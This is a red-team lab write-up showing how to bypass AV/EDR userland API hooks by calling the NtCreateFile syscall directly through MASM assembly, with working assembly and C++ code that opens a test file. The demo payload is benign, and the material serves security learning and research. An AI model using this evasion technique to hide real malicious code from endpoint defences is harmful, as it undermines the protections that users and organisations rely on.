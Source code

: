 # Calling Syscalls Directly from Visual Studio to Bypass AVs/EDRs

AVs/EDR solutions usually hook userland Windows APIs in order to decide if the code that is being executed is malicious or not. It's possible to bypass hooked functions by writing your own functions that call syscalls directly.

For a more detailed explanation of the above, read a great research done by [@Cn33liz](https://twitter.com/Cneelis) from [@Outflank](https://twitter.com/OutflankNL): [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) - now you know what inspired me to do this lab.

With this lab, I wanted to follow along what Cn33liz did and go through the process of incorporating and compiling ASM code from the Visual Studio and simply invoking one syscall to see how it's all done by myself. In this case, I will be playing with `NtCreateFile` syscall as this will be enough to prove the concept.

Also, see my previous labs about API hooking/unhooking: [Windows API Hooking](../code-injection-process-injection/how-to-hook-windows-api-using-c++.md), [Bypassing Cylance and other AVs/EDRs by Unhooking Windows APIs](bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis.md)

## Setting Up Project Environment

Add a new file to the project, say `syscalls.asm` - make sure the main cpp file has a different name as the project will not compile:

![](../../.gitbook/assets/image%20%2864%29.png)

Navigate to project's `Build Customizations`:

![](../../.gitbook/assets/image%20%2875%29.png)

Enable `masm`:

![](../../.gitbook/assets/image%20%28103%29.png)

Configure the `syscalls.asm` file to be part of the project and compiled using Microsoft Macro Assembler:

![](../../.gitbook/assets/image%20%28148%29.png)

## Defining Syscalls

In the `syscalls.asm`, let's define a procedure `SysNtCreateFile` with a syscall number 55 that is reserved for `NtCreateFile` in [Windows 10](https://j00ru.vexillium.org/syscalls/nt/64/):

{% code-tabs %}
{% code-tabs-item title="syscalls.asm" %}
```csharp
.code
	SysNtCreateFile proc
			mov r10, rcx
			mov eax, 55h
			syscall
			ret
	SysNtCreateFile endp
end
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The way we can find the procedure's prologue \(mov r10, rcx, etc..\) is by disassembling the function `NtCreateFile` \(assuming it's not hooked. If hooked, just do the same for, say `NtWriteFile`\) using WinDbg found in `ntdll.dll` module or within Visual Studio by resolving the function's address and viewing its disassembly there:

```cpp
FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
```

![](../../.gitbook/assets/image%20%2861%29.png)

Disassembling the address of the `NtCreateFile` in `ntdll` - note the highlighted instructions and we can skip the `test` / `jne` instructions at this point as they are irrelevant for this exercise:

![](../../.gitbook/assets/image%20%28147%29.png)

## Declaring the Calling C Function

Once we have the `SysNtCreateFile` procedure defined in assembly, we need to define the C function prototype that will call that assembly procedure. The `NtCreateFile` prototype per [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile) is:

```cpp
// Using the NtCreateFile prototype to define a prototype for SysNtCreateFile. 
// The prorotype name needs to match the procedure name defined in the syscalls.asm
// EXTERN_C tells the compiler to link this function as a C function and use stdcall 
// calling convention - Important!

EXTERN_C NTSTATUS SysNtCreateFile(
	PHANDLE FileHandle, 
	ACCESS_MASK DesiredAccess, 
	POBJECT_ATTRIBUTES ObjectAttributes, 
	PIO_STATUS_BLOCK IoStatusBlock, 
	PLARGE_INTEGER AllocationSize, 
	ULONG FileAttributes, 
	ULONG ShareAccess, 
	ULONG CreateDisposition, 
	ULONG CreateOptions, 
	PVOID EaBuffer, 
	ULONG EaLength
);
```

Once we have the prototype, we can compile the code and check if the `SysNtCreateFile` function can now be found in the process memory by entering the function's name in Visual Studio disassembly panel:

![](../../.gitbook/assets/image%20%2825%29.png)

The above indicates that assembly instructions were compiled into the binary successfully and once executed, they will issue a syscall `0x55` that is normally called by `NtCreateFile` from within ntdll.

## Initializing Variables and Structures

Before testing `SysNtCreateFile`, we need to initialize some structures and variables \(like the name of the file name to be opened, access requirements, etc.\) required by the `NtCreateFile`:

![](../../.gitbook/assets/image%20%289%29.png)

## Invoking the Syscall

Once the variables and structures are initialized, we are ready to invoke the `SysNtCreateFile`:

```cpp
SysNtCreateFile(
	&fileHandle, 
	FILE_GENERIC_WRITE, 
	&oa, 
	&osb, 
	0, 
	FILE_ATTRIBUTE_NORMAL, 
	FILE_SHARE_WRITE, 
	FILE_OVERWRITE_IF, 
	FILE_SYNCHRONOUS_IO_NONALERT, 
	NULL, 
	0
);
```

If we go into debug mode, we can see that all the arguments required by the `SysNtCreateFile` are being pushed on to the stack - as seen on the right disassembler panel where the break point on `SysNtCreateFile` is set:

![](../../.gitbook/assets/image%20%282%29.png)

If we continue debugging, the debugger eventually steps in to our assembly code that defines the `SysNtCreateFile` procedure and issues the syscall for `NtCreateFile`. Once the syscall finishes executing, a handle to the opened file `c:\temp\test.txt` is returned to the variable `fileHandle`:

![](../../.gitbook/assets/syscall-debugging.gif)

## So What?

What this all means is that if an AV/EDR product had hooked `NtCreateFile` API call, and was blocking any access to the file c:\temp\test.txt as part of the hooked routine, we would have bypassed that restriction since we did not call the `NtCreateFile` API, but called its syscall directly instead by invoking `SysNtCreateFile` - the AV/EDR would not have intercepted our attempt to open the file and we would have opened it successfully.

## Code

{% code-tabs %}
{% code-tabs-item title="syscalls.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include "winternl.h"
#pragma comment(lib, "ntdll")

EXTERN_C NTSTATUS SysNtCreateFile(
	PHANDLE FileHandle, 
	ACCESS_MASK DesiredAccess, 
	POBJECT_ATTRIBUTES ObjectAttributes, 
	PIO_STATUS_BLOCK IoStatusBlock, 
	PLARGE_INTEGER AllocationSize, 
	ULONG FileAttributes, 
	ULONG ShareAccess, 
	ULONG CreateDisposition, 
	ULONG CreateOptions, 
	PVOID EaBuffer, 
	ULONG EaLength);

int main()
{
	FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
	
	OBJECT_ATTRIBUTES oa;
	HANDLE fileHandle = NULL;
	NTSTATUS status = NULL;
	UNICODE_STRING fileName;
	IO_STATUS_BLOCK osb;

	RtlInitUnicodeString(&fileName, (PCWSTR)L"\\??\\c:\\temp\\test.txt");
	ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
	InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

	SysNtCreateFile(
		&fileHandle, 
		FILE_GENERIC_WRITE, 
		&oa, 
		&osb, 
		0, 
		FILE_ATTRIBUTE_NORMAL, 
		FILE_SHARE_WRITE, 
		FILE_OVERWRITE_IF, 
		FILE_SYNCHRONOUS_IO_NONALERT, 
		NULL, 
		0);

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile" %}

{% embed url="https://j00ru.vexillium.org/syscalls/nt/64/" %}

